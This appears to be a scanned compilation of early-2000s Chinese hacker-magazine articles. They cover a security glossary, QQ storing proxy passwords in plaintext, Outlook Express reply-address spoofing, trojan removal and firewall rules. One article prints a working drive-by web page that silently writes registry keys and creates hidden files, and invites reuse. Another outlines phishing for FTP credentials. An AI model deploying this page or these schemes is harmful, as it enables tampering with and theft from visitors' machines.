现在，你就可以放心地在网络中漫游，而不必再担心有人会通过 NetBIOS 漏洞入侵你的电脑。

## 黑客X档案2002-2003年合订本

## 侵瓜黑客

# 常见黑客术语解释

银蚯蚓

木马：全称为“特洛伊木马”（Trojan Horse）。“特洛伊木马”这一词最早出现在希腊神话传说中。相传在 3000 年前，在一次希腊战争中，麦尼劳斯（人名）派兵讨伐特洛伊王国，但久攻不下。他们想出了一个主意：首先他们假装被打败，然后留下一个大木马，而木马里面却躲着最强悍的勇士！最后等时间一到，木马里的勇士冲出来把敌人打败了！

这就是后来有名的“木马计”——把预谋的功能隐藏在公开的功能里，掩饰真正的企图。至于黑客程序里的特洛伊木马，其功能和故事里的特洛伊木马差不多。

- 肉鸡：已经被攻击了，具有控制权的主机。
- 跳板：利用此主机作跳板，攻击其它主机。
- shell：shell 是系统与用户的交换式界面。简单来说，就是系统与用户的“沟通”环境。我们平时经常用到的 DOS，就是一个 shell。（Windows 2000 是 cmd.exe）
- root：Unix 里最高权限的用户，也就是超级管理员。
- admin：Windows NT 里最高权限的用户，也就是超级管理员。
- rootshell：通过一个溢出程序，在主机溢出一个具有 root 权限的 shell。
- exploit：溢出程序。exploit 里通常包含一些 shellcode。
- shellcode：溢出攻击要调用 API 函数，溢出后要有一个交换式界面进行操作，所以就有了 shell 的 code。
- Access Control List (ACL)：访问控制列表。
- Address Resolution Protocol (ARP)：地址解析协议。
- Administrator account：管理员帐号。
- ARPANET：阿帕网（Internet 的前身）。
- access token：访问令牌。
- adaptive speed leveling：自适应速率等级调整。
- Administrator account：管理员帐号。
- algorithm：算法。
- alias：别名。
- anlpasswd：一种与 Passwd+ 相似的代理密码检查器。
- applications：应用程序。
- ATM：异步传递模式。
- account lockout：帐号封锁。
- account policies：记帐策略。
- accounts：帐号。
- adapter：适配器。

# 踢动下线的QQ

作者：code9527

现在几乎所有的高等院校都有自己的局域网，同学们可以非常方便地通过代理服务器访问互联网上的各种资源，于是随之而来的代理服务器的帐号和密码也就成了我们身边“密码家族”的一员，而安全问题也就由此而生。

一日上网，打开 IE 跳出代理服务器的登录窗口，填好用户名和密码，点击确定。哎哟……不好，登录窗口再一次跳了出来。再填，再跳，最后终于访问被禁止了。奇怪，这是怎么回事呢？用户名和密码都正确啊，昨天才上过的呀！看来答案只有一个，那就是有人正在使用我的帐号上网——我的账号被盗了！

糊里糊涂的我开始了种种推测。帐号被盗，可能是有人在机房里偷用了；还有可能是我填写用户名和密码时被人看到了。再有就是，我的目光停留在了 QQ 上。在登录 QQ 时，不小心把填写代理服务器帐号和密码的资料保存了？难道是它？嗯，现在就动手查看。

打开 QQ 所在的目录“C:\Program Files\Tencent”，看到了一个以我的 QQ 号码命名的文件夹（图一），打开后看到四个文件（图二），分别是 9527.abs、msg.db、notes.db 和 user.db。会是哪一个呢？看上去 user.db 比较可疑，打开来看看吧！

因为没有编辑二进制文件的工具，所以只好让 Microsoft Word 代劳了。上帝保佑，希望是明文。哈，结果出来了，除了一小部分是乱码外，大部分还是可以看得出来的。呵呵，原来你在这里（图三）！QQ 还是够马虎，竟然赫然写着我的帐号和密码。看来网上盛传 QQ 的安全系数极低也并非空穴来风。除此项外，还可以看到一些有关好友的资料等等。看来腾讯的 QQ 的数据库工作可做得不怎么样，就是用普通的写字板（速度没有 Word 快）也可以看到用户的资料，这可谓是一大败笔啊！

这里要提醒那些需要填写 QQ 代理服务器账号的朋友们，如果在公共机房上机的话，记得临走时删除那个以你的号码命名的文件夹，这样可以减少密码外泄的风险。当然，如果机器上有还原卡的话，问题就简单些，只要它是每次开机都强制还原，就可万事大吉，关机走人。

# 如何利用网页控制注册表

银蜥蜴

我们上网时常见到一些：“注册表被某某网站改写”或者“上了某某网站后，开机时会弹出对话框”等等这一类的现象。其实，这只是一些网站利用简单的 HTML 编写的注册表项实现的。那么现在，就让我们来对其作进一步的了解，看这究竟是怎么一回事儿！

不知大家对 Windows 系统注册表了解有多少？我们知道，在 Windows 系统下，我们可以编写注册表脚本文档“*.reg”来实现对注册表的改写。先让我们来看一个注册表脚本文档：

```reg
REGEDIT4

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System]
"DisableRegistryTools"=DWORD:00000001
```

不知大家看懂没有？以上这个注册表脚本是锁住注册表编辑器。好了，注册表脚本编好了，再让我们看看怎样将其与 HTML 结合。

以下是一个 HTML 源码：

```html
<HTML>
<HEAD>
<META http-equiv=Content-Type content="text/html; charset=gb2312">
<SCRIPT language=JavaScript>document.write("<APPLET HEIGHT=0 WIDTH=0 code=com.ms.activeX.ActiveXComponent></APPLET>")
function f(){
  try{
    a1=document.applets[0];
    a1.setCLSID("{F935DC22-1CF0-11D0-ADB9-00C04FD58A0B}");
    a1.createInstance();
    sh = a1.GetObject();
    a1.setCLSID("{0D43FE01-F093-11CF-8940-00A0C9054228}");
    a1.createInstance();
    fo = a1.GetObject();
    if (document.cookie.indexOf("kmi69set") == -1) {
```

```html
sh.RegWrite("HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System\\DisableRegistryTools",1,"REG_DWORD");
hd=fo.CreateTextFile();
hd.write('');
hd.close();
file=fo.GetFile('c:\\vntop.htm');
file.Attributes=6;
var expdate = new Date((new Date()).getTime()+(1));
document.cookie='kmi69set=kmi69; expires='+expdate.toGMTString()+'; path=/';
}
catch(e)
{
}
function init(){
  setTimeout("f()",1000);
}
init()</SCRIPT>
</HEAD>
</HTML>
```

我们注意到在上面这个 HTML 源码中，有一行“HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System\DisableRegistryTools",1,"REG_DWORD”，拿这一行与上面那个注册表脚本比较一下，我们就可以发现，它们唯一不同的只在换行不一样，还有书写格式的细小区别。但是这其中的区别不大，我们也能够发现。

下面我们来仔细看一下这段 HTML 源码中其它的一些语句。这段 HTML 源码是利用 JavaScript 来实现对注册表的改写，其中最关键的一句也就是：

```javascript
sh.RegWrite("HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System\\DisableRegistryTools",1,"REG_DWORD")
```

这也就是写入注册表的语句：sh.RegWrite。其格式为：“sh.RegWrite（‘注册表键’，键值，‘键值类型’）”。如果大家要改，只要将括号里的内容改成自己的内容，其它的均可套用，做成一个最简单的网页。

好了，在这篇文章里，我只向大家介绍怎样编写一个简单的能够写注册表的网页，其它关于注册表的内容，我就不在这里详述了。最后要声明一点：本文章内容有一定的危险，请大家慎重使用！

文/gale

时下，很多人喜欢用微软的 Outlook Express 来收发电子邮件，然而 Outlook Express 的默认设置导致了一个漏洞，可以让别有用心的人接收到你给你朋友发的信件。比如，你给你的女朋友发邮件，明明填上了女朋友的邮箱地址，而信却发到攻击者的邮箱里去！不好意思，所发生的这一切你都是不知道的。

## 侵瓜黑客

## 一、欺骗接收电子邮件的原理

说白了，这是利用了 Outlook Express 地址簿的漏洞来实现的。微软的 Outlook Express 安装后的默认设置里有一项是造成“地址误对应”的漏洞的，这一项在 Outlook Express 的“工具”->“选项”->“发送”标签里，“自动将我的回复对象添加到通讯簿”便是（英文版对应这一项为“Automatically put people I reply to in my address book”）（图 1 为笔者的 Outlook Express 默认设置），此项功能会使 Outlook Express 自动将人名和地址对应起来，这就有可能让攻击者利用地址簿进行欺骗，接收你发出的电子邮件。

注意：这个漏洞只存在于 Outlook Express 5.5 SP1 及其之前版本。因此如果你不使用 Outlook Express，或使用 Outlook Express 5.5 SP1 以上版本，则不存在本文描述的情况。

## 二、欺骗接收电子邮件的过程

光说没用的，下面我来给大家验证一下以上的描述。笔者的邮箱是 chinesegale@21cn.com，女友的邮箱是 cenjinfeng@21cn.com，攻击者的邮箱是 gale@cngale.com（呵呵~~其实三个邮箱都是我的，只是为了做个试验而已，我怎么会把女友的邮箱说出来呢？会挨扁的！）。现在假设攻击者用他自己的信箱 gale@cngale.com 给笔者 chinesegale@21cn.com 写了一封信，冒充了女友的信箱（知道了这个足够作攻击的前提了），信的格式大体如下：

```text
From: "cenjinfeng@21cn.com"
Reply-To: "cenjinfeng@21cn.com"
To: chinesegale
Subject: I Miss You And You ?
```

收到这封信有什么感觉？我当然以为是女友的来信啦（假设的！我有那么笨吗？），马上向女友的信箱 cenjinfeng@21cn.com 回信，因为信里显示是从 cenjinfeng@21cn.com 发来的嘛，没错呀，她的信箱就是这个呀（别信！骗你的）。此时，Outlook Express 地址簿会将 cenjinfeng@21cn.com 作为名字，和攻击者所用的信箱 gale@cngale.com 这个地址对应起来！如果我在“收件人”栏中直接填写地址 cenjinfeng@21cn.com 的话，Outlook Express 会将攻击者的地址解释成“cenjinfeng@21cn.com”的，而发邮件的实际地址却是攻击者的那个 gale@cngale.com！并将我的信发到他那里！555~~我一直被蒙在鼓里呀，在我还傻等女友的回信时，攻击者已经在偷看我们的秘密了！

## 三、问题说明了什么

以上只是笔者为这个实验增加点气氛而虚构的一个小片段，但又切切实实是可行的。这个问题说明了什么呢？严重程度如何？相信不用我再多说了吧！Outlook Express 默认的功能设置导致邮件误发给了攻击者，只要攻击者通过各种渠道知道你发邮件的对象的信箱，就可以截获到你所要发出的信件。这完全是微软的错！虽然表面上是人为造成的，只要你收到攻击者冒名的那封信你不傻乎乎地回信就没事。但是，用户是无辜的，一般的用户平日工作繁多，并不容易接到亲朋好友发来的邮件，匆匆忙忙地回信了，根本就没有心思去辨别来信地址的真伪。而软件的设计者一开始就应该想到这些，不应该有那个默认的设置！

## 四、如何进一步地利用

通过上面的示范我们知道，只要攻击者知道受害者要发信给谁，那他就有可能截获到受害者给谁的信。如何知道呢？笔者想给点思路，目的是让您知道您会有这样被攻击的可能性！

- 1. 通过 QQ 的个人资料。这个可能性更大！一般人都在网吧里上网，会在机器上生成一个以帐号号码为名字的文件，里面包含了你和你全部好友的个人资料。而十个有九个人下了网都不删除自己留在机器上的资料！有些人根本就不知道自己的资料会留在机器上！只要你到 QQ 所在的目录下找到受害者的文件夹，用记事本打开其中的“user.db”文件，即可看到其本人和全部好友的个人资料信息，虽然整体上一片凌乱，但只要细心地看，好友的个人资料全是明文保存的，Email 当然也不例外。这些好友常跟他在网上联系，他们的 Email 自然是受害者最有可能会给他们发信的了！（问问你自己，我说的是不是啊！）获得了这些邮件地址，攻击者就可以冒充这些 Email 给你发信，引你上当了。

- 2. 通过个人主页。现在有个人主页的人可不少；不管是顶级域名还是二级、三级域名，都有自己的主页空间。这些提供商一般都会提供商业信箱；而你又在你的主页上公布你的信箱，方便大家和你联系，攻击者冒充 webmaster@XXX.com 之类的名义给你写信，骗你说什么“服务器数据库出了问题”，要重新收集资料什么的，然后给你一张假的表，让你填上你主页的名称、你的贵姓大名、身份证、家庭地址、FTP 帐户、密码等等一大堆东西。当你没有半点怀疑的时候，你是不是乖乖地将你的这些个人资料填到“表”里发给你的“提供商”？你能想得出攻击者会利用你的这些宝贵资料干什么吗？单单是 FTP 帐户和密码就可以“黑”掉你的主页了。

具体探测第三方的信箱有很多办法，自己去想好了，以上只是笔者的两点思路而已，可不要利用这个来害人！

## 五、如何防范邮件被窃取

其实，出现这么严重的后果，完全是 Outlook Express 安装时的默认设置造成的，也可以说是软件设计师们的疏忽吧。只要我们稍稍手动设置一下，别人就不会再能得逞了。具体步骤如下：打开 Outlook Express，点击“工具”->“选项”，选择“发送”标签，将“自动将我的回复对象添加到通讯簿”这一项前面的小钩去掉，屏蔽掉这一项功能即可。

设置好了 Outlook Express，还要保护好你的个人隐私。公共场所上完网后，记得删除你的 QQ 个人文件，免得泄露你的好友的 Email 等资料。你设置安全了，但你不能保证你的好友设置也安全；你也不能保证攻击者不去攻击你的好友。总之，问题说明白了，你得着办吧！

# 中英文对照翻译



李莉莉——翻译整理

- 1. 在网站 Jargon File 上有一系列关于术语“黑客”的定义，其中绝大多数都和技术熟练、从解决问题、克服极限中获取乐趣有关。然而，若你想知道怎样成为黑客，那么只有两点是真正相关的。

- 2. 其一是存在有一个专家级程序员和网络天才共享的文化圈，其历史可追溯到数十年前的第一批时间共享的小型计算机以及最早的 ARPA 网试验。正是这个文化圈中的成员创造了术语“黑客”。黑客建立起了因特网；黑客制作了今天所使用的 UNIX 操作系统；黑客运行了 USENET；黑客让万维网运转了起来。如果你是这个文化圈中的一部分，如果你对此文化圈作出了贡献，如果圈中人都知道你是谁并称你为黑客，那么你就是黑客。

- 3. 黑客的思维模式并不局限于这种软件黑客文化。有些人将这种黑客态度应用于其他事物，如电子或音乐。实际上，你能在任何科学或艺术的最高阶段发现这种黑客态度。软件黑客承认这些在其他领域与他们志趣相投的人，并把他们称作“黑客”。有人甚至声称黑客的品性是完全独立于黑客所从事的媒介的。但在这篇文档的剩余部分，我们将主要集中于软件黑客的技能和态度，以及创造术语“黑客”的共享文化圈中的一些传统。

- 4. 还有一群高声自称为黑客却不是黑客的人。这些人（主要是青少年男子）从侵入计算机和盗用电话系统的电话线路中获取快感。真正的黑客把他们叫做“骇客”，并不想与之有任何关系。真正的黑客多认为这些“骇客”懒惰、不负责任，而且并不十分高明。他们提出反对，说能够破坏安全并不能使你成为黑客，就像能用电线启动汽车并不能使你成为机械工程师一样。不幸的是，许多新闻记者和作家被教唆以至用“黑客”这个词去形容那些“骇客”，这使得真正的黑客气愤不已。

- 5. 归根结底，两者最根本的区别是：黑客创建事物，骇客破坏它们。

- 6. 假如你想成为黑客，那就继续看下去；假如你想做骇客，那就请阅读 alt.2600 新闻组，并且在发现你不如你所想象的那样聪明后，作好准备去监狱呆五到十年吧。这就是我要说的关于骇客的全部。

- 1. The Jargon File contains a bunch of definitions of the term "hacker", most having to do with technical adeptness and a delight in solving problems and overcoming limits. If you want to know how to become a hacker, though, only two are really relevant.

- 2. There is a community, a shared culture, of expert programmers and networking wizards that traces its history back through decades to the first time-sharing minicomputers and the earliest ARPAnet experiments. The members of this culture originated the term "hacker". Hackers built the Internet. Hackers made the Unix operating system what it is today. Hackers run Usenet. Hackers make the World Wide Web work. If you are part of this culture, if you have contributed to it and other people in it know who you are and call you a hacker, you're a hacker.

- 3. The hacker mind-set is not confined to this software-hacker culture. There are people who apply the hacker attitude to other things, like electronics or music—actually, you can find it at the highest levels of any science or art. Software hackers recognize these kindred spirits elsewhere and may call them "hackers" too—and some claim that the hacker nature is really independent of the particular medium the hacker works in. But in the rest of this document we will focus on the skills and attitudes of software hackers, and the traditions of the shared culture that originated the term "hacker".

- 4. There is another group of people who loudly call themselves hackers, but aren't. These are people (mainly adolescent males) who get a kick out of breaking into computers and phreaking the phone system. Real hackers call these people "crackers" and want nothing to do with them. Real hackers mostly think crackers are lazy, irresponsible, and not very bright, and object that being able to break security doesn't make you a hacker any more than being able to hotwire cars makes you an automotive engineer. Unfortunately, many journalists and writers have been fooled into using the word "hacker" to describe crackers; this irritates real hackers no end.

- 5. The basic difference is this: hackers build things, crackers break them.

- 6. If you want to be a hacker, keep reading. If you want to be a cracker, go read the alt.2600 newsgroup and get ready to do five to ten in the slammer after finding out you aren't as smart as you think you are. And that's all I'm going to say about crackers.

# 巧解“非法操作”

马田

用户在使用计算机过程中经常遇到“非法操作”的故障，这类故障不仅可以由软件和硬件引起，还有可能是由病毒引发。下面，我们结合实际来探讨一下“非法操作”产生的原因及其解决办法。

## 一、由软件自身的不完善引起

典型例子：Photoshop 图形软件在运行时容易产生“非法操作”故障。

解决办法：将软件升级为高版本或升级补丁程序。在运行图形软件的过程中，用户应减少其他程序占用内存，用户也可以升级显卡、声卡或者显示器的驱动程序。

## 二、由病毒的残留“僵尸”以及冰河木马引起

典型例子：.dll 文件失效。

解决办法：一些病毒在发作过程中，会改动一些文件，一旦某些重要文件被改动，计算机将很难正常工作。对于这种情况，用户可以采用干净的引导盘启动系统，利用杀毒软件清除病毒，再采用相应软件恢复系统。或者先终止内存中正在运行的冰河木马，进入注册表删除“HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run”和“RunServices”的键值，将“HKEY_CLASSES_ROOT\txtfile\shell\open\command”的键值改成“C:\Windows\NOTEPAD.EXE %1”，重启到 DOS，再到 C:\Windows\System 中，将 Kernel32.exe 和 Sys-explr.exe 删除。

## 三、由系统文件的损坏或丢失引起

典型例子：Rundll32 程序执行无效，即将关闭。

解决办法：当按下“详细资料”按钮时，若显示“Rundll32 caused a general protection fault in module Mmsystem.dll....”信息，原因很可能是用户的 System.ini 文件在“boot”这个区段中，缺少了“drivers=mmsystem.dll”命令行，用户只要添加上这一命令行便可以解决问题。

## 四、由软件间的不兼容引起

典型例子：Windows 98 下的 KV3000 所引起的“非法操作”。

造成的原因：许多杀毒软件在运行过程中不遵循 Windows 9x 的“内存管理”，从而造成“非法操作”。解决这类问题的方法是：用户可以升级杀毒软件，还可以加载 Windows 9x 的内存管理程序 Emm386.exe 进行解决。

## 五、由缓存设置不合理引起

典型例子：缓冲区空间不足。

解决办法：Win386.swp 可以将一部分硬盘空间当作内存使用（是按物理内存的 2 倍大小来设置），把内存中闲置太久的程序放到硬盘上，等 CPU 需要使用这些程序时，再从硬盘的 Win386.swp 里读出来。在 Windows 98 中，使用虚拟设备磁盘缓存 Vcache 也可以解决此类问题。

## 六、由系统资源匮乏引起

典型例子：打印或保存时引起的“非法操作”。

解决办法：升级内存，加大缓存，移除一些不必要的软件。最好是在启动系统后先运行较大的软件。用户还可以增加一个内存管理专家软件。

## 七、由系统及其系统部件过热引起

典型例子：SDRAM 的过热故障。

解决办法：选择好的散热片和散热风扇，风扇转速要高，散热片的散热面积要大，散热片材质要利于散热，与被散热部件的接触面积要大。

## 八、由硬件质量不好引起

典型例子：SDRAM 质量不稳定引发“非法操作”。

解决办法：先将 BIOS 中的内存参数设置保守一些，如 SDRAM CAS LATENCY 的值，设为 CL=3。

### 九、由硬件 I/O 冲突兼容性差引起

典型例子：网卡的冲突。

解决办法：在设备管理中删除带“！”号的设备，让系统重新识别一下硬件，然后安装驱动程序。

## 十、由硬件超频引起的“非法操作”

典型例子：CPU 和 SDRAM 超频故障。

解决办法：将散热的危害性降到最小程度，控制 CPU 和 SDRAM 的温度。

## 十一、其他

对机房环境加强维护：防尘、避免高温高湿度；定期进行除尘、除湿的维护；看清故障，不要盲目处理，避免引发其他故障；做好接地，避免静电的危害；注意防范冰河木马，经常进行杀毒软件的更新；保持机箱的稳定性，避免不必要的振动，防止硬物的冲击；保持硬盘的数据整洁，定期运行管理软件，如磁盘扫描、系统文件检查器、磁盘碎片整理和备份程序。



在互联网上与人（或网站）通讯的时候，必须使用统一的协议——TCP/IP。基本上 Internet 的所有服务都是基于 TCP/IP 的，如 HTTP、FTP 等。TCP/IP 将数据进出计算机的通道定义为“端口”，电脑上的端口号是 0～65535（256×256 个），不同的网络服务会使用不同的端口，例如：收邮件时利用的是 110 号端口，而发邮件则用的是 25 号端口；上网则是通过 139 端口。当然黑客也是从端口攻入你的系统的。

可以这样认为，任何一次网络连接（方式），都可以使本机与该次连接对应的端口暴露在网络上，成为黑客或木马程序攻击或入侵的大门。要想防止，就得把它关闭或隐藏起来。

我们以现在比较流行的天网防火墙为例来具体谈谈。主界面如图 1 所示：



图 1

# 侵犯黑客



图 2

在规则菜单下双击要更改的规则（如“TCP 数据包监视”），或不利用的规则，或使用空规则。在以上三种方式中任选一项，双击打开“IP 规则修改”窗口，修改的项目如下：（图 3）

- 名称：禁止 80 攻击
- 说明：输入便于标识的文字
- 数据包方向：接收
- 对方 IP 地址：任何地址
- TCP 项
- 本地端口：从 80 到 80
- 对方端口：从 0 到 65535
- TCP 标志位：SYN
- 满足上面条件时：拦截
- 同时还：记录、警告、发声



图 3

单击“确定”按钮使设置完成，在规则菜单里选中设置好的规则，这样才能使设置在天网启动时自动生效。退出，再运行天网，新规则将起作用。完成以后任何人从任何地址都不能以你的 80 端口进行攻击。当你十分相信的网站要用你的 80 端口时，拦截日志将有“此网站的 IP 地址为 202.103.***.**”的报告。这时候你只要修改规则，在对方 IP 地址项上选择“指定地址”，并把相应地址填上，在“首项起止条件”选择“通讯”，并且一定要把此规则提到 80 端口拦截规则前面，点击保存。要是在 TCP 规则最后加一条 TCP 规则：本地端口设为从 0 到 65535；对方端口也设为从 0 到 65535；“当满足上面条件时”选择“拦截”，这样你机器的 TCP 端口对所有人关闭、隐形。别人就不能对你进行攻击，哪怕你已经中了木马程序，当然网站对你的机器进行正常的网络检测也会被拦截。

abomber

UDP 规则同样设置，但一定要加上两条“通讯”规则，并紧靠 UDP 数据包监视之后。

第一条是允许向你提供 ISP 服务网站的 DNS 域名解释 UDP 数据包端口，一般为网站端口（53 号端口）；第二条是允许 ISP 服务网站向你下传内容的 UDP 数据包端口，即网站端口（53 号端口）。你可以先不加这两条“通讯”规则，联网后，拦上一个网站，拦截日志会自动把 ISP 的这两个 IP 地址、端口给记录下来（UDP 数据包、对方端口、对方地址 ***.***.**.**）。这时候再利用空规则，将其直接变为“通讯”规则，依上操作，加上指定地址。

在 UDP 规则最后设定本地端口为“0 到 65535”，对方端口为“0 到 65535”的拦截规则。要用 QQ 等即时通讯软件时也可以这样设置，这样我们的机器在网络上就安全多了；拦截日志内容也少多了。以前拦截日志多时，在 20 分钟内有 60 多个记录。

你可以试一试以上设置，然后通过日志文件看看这样设置的好处。如图 4 所示。

